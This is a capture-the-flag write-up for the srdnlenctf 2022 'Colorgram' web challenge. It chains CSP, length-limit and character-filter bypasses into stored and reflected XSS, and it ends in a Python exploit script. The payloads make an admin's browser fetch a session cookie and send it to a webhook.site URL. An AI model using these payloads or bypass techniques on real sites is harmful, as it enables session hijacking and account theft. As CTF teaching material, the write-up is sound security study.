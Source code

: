 # srdnlenctf 2022

## Colorgram (X solves)

> I hope the colorblind community doesn't get offended by this chall...
>
> Website: [http://colorgram.challs.srdnlen.it](http://colorgram.challs.srdnlen.it)
>
> Author: @takenX10

### Solution

By checking the source code (db/init.sql), we can see that the flag is inside the database in the password field of the admin user.
Reading the source code we can also see that the flag gets inserted in the session cookie of the admin, and you can read it by just decoding the jwt cookie.
So naturally, the objective becomes to obtain the admin cookie, even though it is httponly.
By checking the source code (src/login.php), we can also see that **you can obtain the cookie by just making a POST request to /login.php while you are already logged in without sending any parameters**.
Now you need to make the admin do a POST request to login, then send the response to yourself -> so you need a really good XSS.
First of all, you can do an XSS on the description field, you need to bypass the CSP:

```ascii
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; object-src 'none';
```

To do that, we can use an iframe with the srcdoc tag, like this:

```html
<iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
```

Now, in order to insert the payload inside our user description we also need to bypass the php filter

```php
function validate_description($desc){
    $maxlength = 32;
    $finalstring = "";
    // Cut the string at the maxlength character
    for($i = 0; $i < $maxlength; $i++){
        $finalstring = $finalstring . $desc[$i];
    }
    $finalstring = urldecode($finalstring);
    $finalstring = str_replace("<","&lt;",$finalstring);
    $finalstring = str_replace(">","&gt;",$finalstring);

    return $finalstring;
}
```

- First of all, the maxlength is too strict, so to bypass it you can just pass the description as an array (`description[]=`)
- Then, we can see that the query gets decoded once more inside the code, so to bypass the `<` and `>` filter you need to url encode the character 2 times ([cyberchef](<https://cyberchef.org/#recipe=URL_Encode(false)Find_/_Replace(%7B'option':'Regex','string':'%253C'%7D,'%2525253C',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%253E'%7D,'%2525253E',true,false,true,false)&input=PGlmcmFtZSBzcmNkb2M9JzxzY3JpcHQgc3JjPSJkYXRhOnRleHQvamF2YXNjcmlwdCxhbGVydCgxKSI%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4>))

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,alert(1)%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we can just make a POST to `http://challengeurl/login.php` and send the response to our webhook:

```html
<iframe
  srcdoc='<script src="data:text/javascript,fetch(`http://challengeurl/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=${d}`);"></script>'
></iframe>
```

And encode it with the same method as before, final payload for the description:

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,fetch(%60http://challengeurl/login.php%60,%7Bmethod:%60POST%60%7D).then(r=%25253Er.text()).then(d=%25253Elocation=%60https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=$%7Bd%7D%60);%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we need to make the admin open our xss.
By checking the color parameter we can see it gets inserted without `"`, so we can just add a space and an onload tag to inject an xss inside the color page.
Now we need to bypass the filter:

```php
if(strlen($color) > 48){
    die('{"error":"color too long!"}');
}
if(preg_match('/[\x00-\x7E]/',$color)){
    if(preg_match('/(\[|\]|\$|\ |\n|\'|\"|\<|\>|\\|\x00|\t|\`|\{|\}|.*on.+=)/',$color)){
        die('{"error":"Invalid character found!"}');
    }
}
```

- %0C does the same thing of space
- we can make a string by casting a regex as a string (`(/account.php?name=sos/))`) instead of using `'` or `"`
- The final slash of the regex is inserted inside the parameter, so we need to call our account with a slash at the end
- To bypass the `on` filter, we can write `oN` or `On`
- With all this, we can make a window.open (shorter than `window.location` and does'n use `on`)

Final payload, barely inside the 48 characters limit:

```ascii
%250CoNload=window.open((/account.php?name=sos/))
```

The last thing to remember is that you should use the challenge url inside your fetch to make it work locally, but to make it work for the admin you should use the internal url `http://colorgram:80/`

Proof of concept below.

Flag: `srdnlen{N1ce_J0B_s0rry_f0r_th1s_X55_4nd_h77p0nly_bypass}`

### Exploit

```python
import requests

CHALLENGE_URL = "http://challengeurl"

# Insert your webhook here
WEBHOOK_URL = "https://webhook.site/7b0e414b-e360-4b7b-865f-4e628ce3307a"

# remember / at the end of the name
username = "sos/"
password = "SrdnlenBestTeam"
mail = "srdnlen@thebest"

# If false it will perform the registration for you, otherwise it will just log in
already_registered = False

# < and > will get url encoded 2 times, the payload will be sent as an array (description[]) automagically (line 36)
payload_description = """<iframe srcdoc='<script src="data:text/javascript,fetch(`http://colorgram-app/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`%s?c=${d}`);"></script>'></iframe>"""%WEBHOOK_URL

payload_color = f"%250CoNload=window.open((/account.php?name={username}))"

session = requests.session()

def register(username, password, email):
    url = f"{CHALLENGE_URL}/register.php"
    data = {"username": username, "email": email, "password": password, "description": "srdnlenisthebestctfteam"}
    return session.post(url, data=data, allow_redirects = False)

def login(username, password):
    url = f"{CHALLENGE_URL}/login.php"
    data = {"username": username, "password": password}
    return session.post(url, data=data, allow_redirects = False)

def change_description(username, new_description):
    url = f"{CHALLENGE_URL}/description.php?name={username}"
    data = {"description[]":new_description}
    # No data=data so that the description[] gets interpreted correctly
    return session.post(url, data, allow_redirects = False)

def report_color_to_admin(username, color):
    url = f"{CHALLENGE_URL}/report.php?name={username}"
    data = {"admin_request":color}
    return session.post(url, data=data, allow_redirects = False)

def main():
    global payload_description
    if(already_registered):
        print("Logging in...")
        print(login(username, password).text)
    else:
        print("Registering...")
        print(register(username, password, mail).text)

    # double url encode char and make list
    payload_description = payload_description.replace("<","%253C")
    payload_description = payload_description.replace(">","%253E")
    print("Changing description...")
    print(change_description(username, payload_description).text)
    print("Reporting color to admin...")
    print(report_color_to_admin(username, payload_color).text)
    print("Now check your webhook, get the jwt inside the request and decode it (https://jwt.io/)")

if __name__ == "__main__":
    main()
```
